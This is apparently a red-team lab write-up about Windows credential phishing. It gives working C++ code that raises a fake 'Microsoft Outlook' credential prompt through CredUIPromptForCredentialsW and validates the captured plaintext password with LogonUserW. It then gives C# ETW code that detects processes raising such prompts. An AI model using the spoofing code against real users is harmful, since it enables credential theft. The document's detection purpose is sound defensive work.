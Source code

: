 # Credentials Collection via CredUIPromptForCredentials

## Purpose

The purpose of this lab is to twofold:

1. write some code that invokes Windows credential prompt, that would allow malware or an attacker to collect targeted user's credentials once they are on the compromised machine
2. write some ETW code that detects processes invoking credential prompts

## Stealing User Credentials

It is possible to collect user credentials with the below code:

{% code title="credentialsprompt.cpp" %}
```cpp
#include <iostream>
#include <Windows.h>
#include <wincred.h>

#pragma comment(lib, "Credui.lib")

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	CREDUI_INFO ci = { sizeof(ci) };
	std::wstring promptCaption = L"Microsoft Outlook";
	std::wstring promptMessage = L"Connecting to spotless@offense.local";
	ci.pszCaptionText = (PCWSTR)promptCaption.c_str();
	ci.pszMessageText = (PCWSTR)promptMessage.c_str();

	WCHAR username[255] = {};
	WCHAR password[255] = {};
	DWORD result = 0;

	result = CredUIPromptForCredentialsW(&ci, L".", NULL, 5, username, 255, password, 255, FALSE, CREDUI_FLAGS_GENERIC_CREDENTIALS);
	if (result == ERROR_SUCCESS)
	{
		HANDLE newToken = NULL;
		BOOL credentialsValid = FALSE;

		credentialsValid = LogonUserW(username, NULL, password, LOGON32_LOGON_INTERACTIVE, LOGON32_PROVIDER_DEFAULT, &newToken);
		if (credentialsValid)
		{
			// valid credentials provided
		}
		else
		{
			// invalid credentials provided
		}
	}
	else if (result == ERROR_CANCELLED)
	{
		// no credentials provided
	}

	return 0;
}
```
{% endcode %}

{% hint style="warning" %}
Although in this lab I am using `CredUIPromptForCredentials` for invoking credentials prompt, you should be using [`CredUIPromptForWindowsCredentials`](https://docs.microsoft.com/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa)
{% endhint %}

If we compile and run the above code, we get a credential prompt, that captures user's credentials in plain text, which we could then save to a file or send out over the internet:

![](<../../.gitbook/assets/image (547).png>)

{% hint style="info" %}
The above credential prompt can also be invoked with PowerShell cmdlet `Get-Credential`.
{% endhint %}

## Detecting Credential Prompts

As a defender, one may want to know what processes are popping these credential prompts, so that malicious ones could be detected - i.e if you are notified that suddenly some unusual process showed a prompt, it may mean that the process is infected and the machine is compromised.

Detection of programs showing credential prompts is possible with [Event Tracing for Windows (EWT)](../../miscellaneous-reversing-forensics/windows-kernel-internals/etw-event-tracing-for-windows-101.md#terminology) - Microsoft-Windows-CredUI provider to the rescue:

![](<../../.gitbook/assets/image (548).png>)

Looking at the provider Microsoft-Windows-CredUI in ETWExplorer, we can see that it can provide consumers with events for both `CredUIPromptForCredentials` and `CredUIPromptForWindowsCredentials` invokations:

![](<../../.gitbook/assets/image (549).png>)

We can create an ETW tracing session and subscribe to events from Microsoft-Windows-CredUI provider with C# like so:

{% code title="credentialsprompt-detection.cs" %}
```csharp
# based on https://github.com/zodiacon/DotNextSP2019/blob/master/SimpleConsumer/Program.cs
using Microsoft.Diagnostics.Tracing.Session;
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace SimpleConsumer
{
    static class Programa
    {
        static void Main(string[] args)
        {
            using (var session = new TraceEventSession("spotless-credential-prompt"))
            {
                Console.CancelKeyPress += delegate {
                    session.Source.StopProcessing();
                    session.Dispose();
                };

                session.EnableProvider("Microsoft-Windows-CredUI", Microsoft.Diagnostics.Tracing.TraceEventLevel.Always);
                var parser = session.Source.Dynamic;
                parser.All += e => {
                    if (e.OpcodeName == "Start")
                    {
                        Console.WriteLine($"{e.TimeStamp} > Credential Prompt detected in {Process.GetProcessById(e.ProcessID).ProcessName}.exe (PID={e.ProcessID})");
                    }
                };
                session.Source.Process();
            }
        }
    }
}
```
{% endcode %}

## Demo

Below shows RogueCredentialsPrompt.exe and Powershell.exe invoking Windows credential prompts and our simple consumer program detecting that activity:

![](../../.gitbook/assets/creduipromptforcredentials-detection.gif)

## References

{% embed url="https://ired.team/miscellaneous-reversing-forensics/etw-event-tracing-for-windows-101" %}

{% embed url="https://github.com/zodiacon/DotNextSP2019/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-creduipromptforcredentialsa" %}
